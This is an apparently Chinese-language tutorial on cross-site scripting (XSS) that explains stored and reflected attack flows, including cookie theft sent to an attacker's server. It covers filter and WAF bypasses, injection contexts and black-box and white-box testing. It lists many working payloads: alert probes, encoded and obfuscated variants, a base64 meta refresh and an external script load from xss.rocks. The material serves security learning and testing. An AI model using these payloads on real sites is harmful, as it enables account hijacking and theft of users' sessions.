

# XSS漏洞详解

跨站脚本攻击XSS(Cross Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页面时，嵌入Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。XSS攻击针对的是用户层面的攻击。危害如下：



## 流程

### 存储型

```sequence
participant 黑客
participant 用户
participant 正常服务器
participant 恶意服务器

黑客->正常服务器:发现正常服务器的XSS漏洞
黑客->正常服务器:在正常页面上构造XSS脚本并提交
用户->正常服务器:登录系统后访问页面请求
正常服务器-->用户:返回带有XSS脚本的页面
用户->恶意服务器:用户浏览器解析了XSS脚本，并将搜集信息发送
黑客->恶意服务器:获取搜集到的用户的信息
```

原理：在个人信息或发表文章等地方插入代码后提交，如没有过滤或过滤不严，那这些代码将储存到服务器中，用户访问该页面的时候返回给用户带有恶意脚本的页面来触发代码执行。该漏洞是持久化的，且不需要与用户进行交互。 存储型XSS比较危险，容易造成蠕虫、盗窃cookie等。攻击过程如下：

Bob拥有一个Web站点，该站点允许用户发布信息/浏览已发布的信息。

+ Alice检测到站点存在存储型的XSS漏洞。他在上面发布一个带有恶意脚本的热点信息，该热点信息存储在了站点服务器的数据库中，然后吸引其它用户来阅读该热点信息
+ Bob浏览该信息之后，恶意脚本在Bob的浏览器中执行
+ 此脚本盗窃敏感信息(cookie、帐号信息等信息)，然后在Bob完全不知情的情况下将这些信息发送给Alice
+ Alice利用获取到的cookie就可以Bob的身份登录B站点。如果脚本的功更强大的话，Alice还可以对Bob的浏览器做控制并进一步利用漏洞控制

### 反射型

```sequence
participant 黑客
participant 用户
participant 正常服务器
participant 恶意服务器

黑客->正常服务器:发现正常服务器的XSS漏洞
黑客->用户:发送带有XSS脚本的链接
用户->正常服务器:点击了恶意链接，进行访问请求
正常服务器-->用户:返回带有XSS脚本的页面
用户->恶意服务器:用户浏览器解析了XSS脚本，并将搜集信息发送
黑客->恶意服务器:获取搜集到的用户的信息
```

原理：通过构造恶意链接，用户点击后能在用户浏览器触发链接中的脚本执行(服务器中没有这样的页面和内容)。一般容易出现在搜索页面。该漏洞是非持久化的，且需要与用户进行交互。 反射型XSS大多数是用来盗取用户的Cookie信息。攻击过程如下：

+ Alice发现站点存在反射性的XSS漏洞，利用网站的反射型XSS漏洞编写了一个exp，做成链接的形式，并利用各种手段诱使站点的用户Bob点击
+ Bob在登录到B站点后，点击了Alice提供的恶意链接，恶意脚本在Bob的浏览器中执行
+ 此脚本盗窃敏感信息(cookie、帐号信息等信息)，然后在Bob完全不知情的情况下将这些信息发送给Alice
+ Alice利用获取到的cookie就可以Bob的身份登录B站点。如果脚本的功更强大的话，Alice还可以对Bob的浏览器做控制并进一步利用漏洞控制

## 对抗

一般程序员都会用一些函数将构成xss代码的一些关键字符给过滤了。可是道高一尺魔高一丈，虽然过滤了，但还可以进行过滤绕过，以达到XSS攻击的目的。主要方法如下：

+ 通过更改标签，如大小写替换、空格/回车/Tab分割、标签内含``
+ 通过标签属性，如src加载、onload事件
+ 通过重新编码，如部分或全部的HEX编码、ASCII编码

更多绕过见文章[《XSS过滤绕过速查表》](https://www.freebuf.com/articles/web/153055.html)，实践见文章[《印尼电商平台Tokopedia的反射型XSS漏洞》](https://www.freebuf.com/vuls/207025.html)。

XSS的攻击载荷常见的有如下地点：

```js
// 以下所有标签的>都可以用//代替， 例如<script>alert(1)</script//
<link rel="stylesheet" href="http://www.xxx.com/atack.css"></link>

<script src="..."></script>

<style onload=alert(1)></style>
<style>@import ‘javascript:alert(‘hack‘);‘</style>

<svg onload=alert(1)/>
<svg onload=alert(1)///


<video src=1 onloadstart=alert(1)/>
```

XSS可以插入的地方有用户输入作为script标签内容、用户输入作为HTML标签名、用户输入作为HTML标签的属性值、用户输入作为HTML注释内容、直接插入到CSS里。举例如下：

```
#用户输入作为HTML注释内容，导致攻击者可以进行闭合绕过
<!-- 用户输入 -->
<!-- --><script>alert('hack')</script><!-- -->

#用户输入作为标签名，导致攻击者可以进行闭合绕过
<用户输入  id="xx" />
<><script>alert('hack')</script><b id="xx" />

#用户输入作为标签属性值，导致攻击者可以进行闭合绕过
<div id="用户输入"></div>
<div id=""></div><script>alert('hack')</script><div a="x"></div>

#用户输入作为标签属性名，导致攻击者可以进行闭合绕过
<div 用户输入="xx">  </div>
<div ></div><script>alert('hack')</script><div a="xx"> </div>

#用户输入作为CSS内容，导致攻击者可以进行闭合绕过
<style>用户输入<style>
<style></style><script>alert('hack')</script><style></style>
```

## 挖掘

不论是任何类型的XSS，要满足输入和输出两个条件。

### 注意事项

黑盒测试：尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如URL本身、URL的每一个参数、表单、搜索框等。常见业务场景如下：

+ 重灾区：评论区、留言区、个人信息、订单信息等等
+ 针对型：网页即时通讯、站内信、私信、意见反馈等
+ 存在风险：搜索框、当前目录、图片属性等

白盒测试：关于XSS的代码审计主要就是从接收参数的地方和一些关键词入手：大多数程序会对接收参数封装在公共函数中统一调用，我们就需要审计这些公共函数看有没有过滤，能否绕过等。可搜索类似`echo`这样的输出语句，跟踪输出的变量是从哪里来的，是否能控制。如果从数据库中取的，是否能控制存到数据库中的数据，存到数据库之前有没有进行过滤等等。PHP中常见的接收参数的方式有`$_GET`、`$_POST`、`$_REQUEST`等等，可以搜索所有接收参数的地方，然后对接收到的数据进行跟踪，看看有没有输出到页面中，然后看输出到页面中的数据是否进行了过滤和html编码等处理。


### 手动测试

#### 基本测试

```html
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT> #是一个常规的XSS测试代码，建议先尝试
```

```html
”;!–“<XSS>=&{()}  #是一个很不错的紧凑型的XSS检测代码
```


```
当用户在一个应用程序编辑自定义信息的时候,在常规Javascript代码中是这样,例如: <SCRIPT>var a=”$ENV{QUERY_STRING}”;</SCRIPT>.如果你想插入你自己的Javascript代码时候,会被服务转义掉其中某些引号,这时你需要通过转义被转义字符来绕过它.从而使最终输入代码类似于<SCRIPT>var a=”\\”;alert(‘XSS’);//”;</SCRIPT>.最终双引号被服务器转义,并且触发了XSS payload:


\”;alert(‘XSS’);//
‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;
alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–

></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

‘”>><marquee></marquee>”></plaintext\></|\><plaintext/onmouseover=prompt(1)>
<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>

<script>alert(document.cookie)</script>”>

'”>


```

#### IMAGE标签

除了大小写混合和半开括号外，还可以综合利用下面的常用方法进行WAF的规避

+ 利用09(tab)或10(换行)或13(回车)进行规避

  ``

  ``

#### SCRIPT标签

`<<SCRIPT>alert(“XSS”);//<</SCRIPT>`

`<STYLE>.XSS{background-image:url(“javascript:alert(‘XSS’)”);}</STYLE><A CLASS=XSS></A>`，这种XSS payload让我很担忧,因为它几乎无法防御,除非禁用所有动态内容

#### 其他的标签

`<BR SIZE=”&{alert(‘XSS’)}”>`

`<svg/onload=alert(‘XSS’)>`

`<STYLE>.XSS{background-image:url(“javascript:alert(‘XSS’)”);}</STYLE><A CLASS=XSS></A>`

`<META HTTP-EQUIV=”refresh” CONTENT=”0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K”>`，这种方案很不错,他没有任何明显的script或者Javascript指令,因为它使用base64编码


文章链接参考[这里](http://www.legendsec.org/1871.html#post-1871-footnote-3)

https://www.jianshu.com/p/68cb0aedd553

https://www.cnblogs.com/xyongsec/p/11274865.html

https://www.jianshu.com/p/6ce1ab9ec9f7

https://www.freebuf.com/sectool/190995.html

https://www.jianshu.com/p/14383bcc202d

https://www.imooc.com/article/263674

https://segmentfault.com/a/1190000016095198

https://www.cnblogs.com/tangqingsong/p/9752866.html

